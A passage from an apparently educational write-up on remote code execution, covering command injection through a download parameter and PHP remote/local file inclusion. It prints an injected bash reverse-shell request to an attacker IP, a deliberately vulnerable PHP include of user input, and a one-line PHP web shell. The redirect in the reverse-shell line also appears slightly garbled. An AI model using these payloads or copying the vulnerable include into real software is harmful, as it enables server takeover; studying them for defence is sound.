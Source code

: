```
GET /downloadurl=google.com
Host: example.com
```
Because user inputted data is send directly to command line, attacker can then inject system commands without using python. It happens because in commandline of Linux ; seperate commands, so attacker can do any command after wget just by doing something like this:
```
GET /downloadurl="google.com;bash -i >8 /dev/tcp/10.0.0.1/8080 0>&1"
Host: example.com

```
And this will send him back a reverse shell.

##### File Inclusion
Most of programming languages has function which allows programmers to include external files in order to evaluate code in them. It is helpful, when programmers try to include external files into their applications. Forcing target server to include file which has malicious code is next way of achieving RCE. 

This vulnerability has two types:
**Remote file inclusion** and **local file inclusion**

Remote file inclusion vulnerabilities occur when the application allows any files from a remote server to be included. This happens when applications dynamically include external files and scripts on their pages and use user input to determine the location of the included file.

Too see how it works we will take closer look to an application vulnerable to the remote file inclusion.
Below PHP code executes function include for the user inputted parameter of the GET request. Include function includes file and evaluates it.
```
<?php
//some php code

$file = $_GET["page"];
include $file;
//more php code

?>
```
This code allows user to have access to different webpages by using page parameter. To show user Index or about page user will have to use corresponding urls: 
``http://example.com/?page=index.php
``http://example.com/?page=about.php
Unless the application limits files included by user by using page parameter, attacker can include PHP file hosted on his own server and force target server to execute it.

In this case we're hosting PHP page which has malicious.php name, which will execute command which is parsed to it via cmd parameter from GET request. System() is similar to pythons  os.system(). Below we can see the code:
```
<?PHP
	system($_GET["cmd"])
?>
```
